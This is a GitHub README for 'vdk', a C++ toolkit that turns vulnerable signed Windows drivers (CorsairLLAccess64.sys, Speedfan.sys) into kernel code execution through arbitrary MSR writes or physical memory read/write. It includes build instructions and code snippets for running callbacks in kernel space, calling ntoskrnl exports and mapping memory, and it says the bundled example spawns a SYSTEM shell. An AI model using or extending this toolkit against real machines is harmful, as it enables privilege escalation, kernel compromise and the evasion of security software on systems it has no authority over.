# vdk - vulnerable driver kit

*vdk* is a set of utilities used to help with exploitation of a vulnerable driver.
There are 2 main features of this library:
1. Getting kernel code execution via arbitrary msr write vulnerability
2. Getting kernel code execution via arbitrary physical memory read/write vulnerability

This project was written after I played with a few vulnerable drivers and was highly inspired by [msrexec](https://back.engineering/22/03/2021/) and [vdm](https://back.engineering/01/11/2020/) projects. I suggest you to read them first to understand what's going on.

Treat this project as a rewritten and combined version of those two.

There are 2 vulnerable drivers that you can use this library with but it should be easy to extend to use with any vulnerable driver. The corresponding code is in `example/src/llaccess.hpp` for `CorsairLLAccess64.sys` and `example/src/speedfan.hpp` for `Speedfan.sys`.
The example project shows every part of this library and uses speedfan driver to spawn shell with system privileges.

# How to use
cmkr example:
```
[fetch-content.vdk]
git = "https://github.com/archercreat/vdk.git"
...
link-libraries = ["vdk"]
```

cmake example:
```cmake
include(FetchContent)
FetchContent_Declare(vdk GIT_REPOSITORY https://github.com/archercreat/vdk.git)
FetchContent_MakeAvailable(vdk)

target_link_libraries(${PROJECT_NAME} PRIVATE vdk)
```

# Examples
Please refer to example folder for more examples.

Execute callback in kernel space by abusing abritrary msr write vulnerability:
```cpp
using dbgprint_t = void(*)(const char*, ...);

vdk::msr::exec([&](void* base, vdk::resolver_t resolver)
{
	auto print = reinterpret_cast<dbgprint_t>(resolver(base, "DbgPrint"));
	print("Hello from kernel! cr3: 0x%llx\n", __readcr3());
},
[&](uint32_t msr, uint64_t value)
{
    wrmsr_cmd cmd
    {
        .msr   = msr,
        .value = value
    };
    unsigned long temp, result;
    return DeviceIoControl(drv, ioctl_wrmsr, &cmd, sizeof(cmd), &result, sizeof(result), &temp, nullptr);
});
```

Execute any ntoskrnl exported function:
```cpp
void* sysproc{};
auto status = vdk::map::syscall<proclookup_t>(rdmem, wrmem, "PsLookupProcessByProcessId", 4, &sysproc);
fassert(NT_SUCCESS(status));
```

Iterate over physical regions:
```cpp
for (const auto& region : vdk::phy::regions())
{
	std::printf("Region: 0x%llx - 0x%llx\n", region.start, region.start + region.size);
}
```

Resolve exported function from pe module:
```cpp
std::vector<uint8_t> raw;
vdk::drv::read_file("C:\\Windows\\System32\\ntoskrnl.exe", raw);
auto rva = vdk::pe::get_export_rva(raw.data(), "RtlFindExportedRoutineByName");
```

Retrieve loaded modules list:
```cpp
for (const auto& module : vdk::drv::loaded())
{
	std::printf("0x%llx - 0x%llx %s\n", module.base, module.base + module.size, module.name.c_str());
}
```

Scan memory region for patterns (`0x00` - any character):
```cpp
std::vector<uint8_t> buf{ 0x69, 0x69, 0x69, 0x10 };
auto ptr = vdk::mem::find_first(buff.data(), buf.size(), "\x69\x69\x69\x00", 4);
fassert(ptr);
```

# Notes
The msr exploitation is highly unstable and should be used as a last resort. There is a high chance that the thread will switch to another core where `cr4.smap` isn't disabled. If you really want to use msr exploit, build project in `Release` mode and replace cr4 value that is specific to your PC in `lib/vdk/msr.cpp` (I didn't bother getting cr4 value dynamically but might do it later).

# build
```
cmake -B build
cmake --build build --config Release
```

# Credits
All credits go to `_xeroxz` and his `msrexec` and `vdm` projects.

